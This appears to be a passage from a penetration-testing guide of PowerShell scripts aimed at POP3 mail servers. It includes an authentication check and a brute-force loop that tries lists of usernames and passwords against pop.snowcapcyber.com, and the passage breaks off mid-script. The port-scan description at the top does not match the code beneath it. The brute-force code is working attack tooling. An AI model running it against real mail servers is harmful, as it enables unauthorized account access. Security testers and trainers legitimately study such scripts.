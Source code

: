 Scans for open ports (POP3 and POP3S) on the POP mail server to identify its attack surface.

**Example:**

Check if pop.example.com has ports 110 (POP3) or 995 (POP3S) open.

---

**Script/Command:**

```powershell
$popServer = "pop.example.com"
$port = 110
$credentials = Get-Credential -Message "Enter POP3 credentials"
try {
    $popClient = New-Object System.Net.Sockets.TcpClient($popServer, $port)
    $popStream = $popClient.GetStream()
    $popReader = New-Object System.IO.StreamReader($popStream)
    $popWriter = New-Object System.IO.StreamWriter($popStream)
    $popWriter.WriteLine("USER " + $credentials.UserName)
    $popWriter.WriteLine("PASS " + $credentials.GetNetworkCredential().Password)
    $popWriter.WriteLine("QUIT")
    $response = $popReader.ReadToEnd()
    if ($response -match "OK") {
        Write-Host "Authentication succeeded."
    } else {
        Write-Host "Authentication failed."
    }
    $popClient.Close()
} catch {
    Write-Host "Connection to POP server failed."
}
```

**Description:**

Tests the POP server’s authentication mechanism with provided credentials.

**Example:**

Attempt to authenticate to pop.example.com with user-provided credentials.

---

**Script/Command:**

```powershell
$popServer = "pop.snowcapcyber.com"
$port = 110
$users = "ajcblyth", "jsmith", "pdavies"
$passwords = "password1", "password2", "password3"
foreach ($user in $users) {
    foreach ($password in $passwords) {
        try {
            $popClient = New-Object System.Net.Sockets.TcpClient($popServer, $port)
            $popStream = $popClient.GetStream()
            $popReader = New-Object System.IO.StreamReader($popStream)
            $popWriter = New-Object System.IO.StreamWriter($popStream)
            $popWriter.WriteLine("USER " + $user)
            $popWriter.WriteLine("PASS " + $password)
            $popWriter.WriteLine("QUIT")
            $response = $popReader.ReadToEnd()
            if ($response -match "OK") {
                Write-Host "Brute force succeeded. User: $user, Password: $password"
                $popClient.Close()
                Break
            }
            $popClient.Close()
        } catch {
```